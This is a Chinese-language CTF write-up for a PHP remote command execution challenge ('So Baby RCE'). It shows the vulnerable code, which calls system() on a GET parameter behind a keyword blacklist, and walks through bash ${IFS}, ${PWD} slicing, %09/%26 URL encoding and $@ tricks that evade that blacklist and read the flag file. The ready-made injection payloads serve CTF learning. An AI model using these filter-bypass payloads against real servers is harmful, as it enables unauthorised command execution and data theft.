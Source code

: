 #Week4 So Baby RCE 200

## 0、知识点与工具

>   远程命令执行

>   linux ${}表达式详解









## 1、分析

>   页面代码

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

>   解题方向有一种是**利用liunx的${}表达式进行命令执行**，由于自己并没有学过查找资料后才发现有这种执行命令方式

>   **然后以下是linux中的`${}表达式`执行后返回的结果值**

```bash
${#} == 0
${##} == 1
${IFS} == 空格

代表了/ 斜杠
${HOME:${#}:${##}} == /
${PATH:${#}:${##}} == /
${PWD:${#}:${##}}  == /

${PWD} ：# 指向网站目录/var/www/html
${USER} ：www-data  # linux会返回用户名称
${HOME} ：# 返回当前用户的主目录 

${PWD::${#SHLVL}} == /

cd${IFS}.. # 返回上层目录
```

## 2、解题

>   查看flag是否在根目录
>
>   ```bash
>   cd${IFS}..&&cd${IFS}..&&cd${IFS}..&&ls${IFS}${PWD}
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202211281954069.png)

>   获取flag
>
>   ```bash
>   cd${IFS}..&&cd${IFS}..&&cd${IFS}..&&od${IFS}-a${IFS}${PWD}fff??lllaaaaggggg
>   ```
>
>   -   **其中因为读取的命令大部分都被过滤了，所以只能使用`od`读取文件，在使用`-a`转八进制**
>       -   **`od`命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII 编码字符方式显示**
>   -   **然后还有一个是`fl`这两个字母连着一起也会被过滤，然后需要在他们中间加`?`号**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221128195559.png)

>   flag{b864ce30-4763-4d1a-8c21-6ff74f14ee40} 

## 3、另一种方式

>   **使用url编码绕过，%09绕过空格，&&拼接命令，url编码为%26，$@绕过`fl`关键字过滤**
>
>   关于$@为什么能执行，这两个字符放在linux中测试确实能执行，
>
>   ![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221128202657.png)

>   **查看根目录命令**
>
>   ```bash
>   ?cmd=cd%09..%26%26cd%09..%26%26cd%09..%26%26ls
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221128201925.png)

>   **获取flag**
>
>   ```bash
>   ?cmd=cd%09..%26%26cd%09..%26%26cd%09..%26%26ls%26%26ca$@t%09ffff$@llllaaaaggggg
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202211282022208.png)
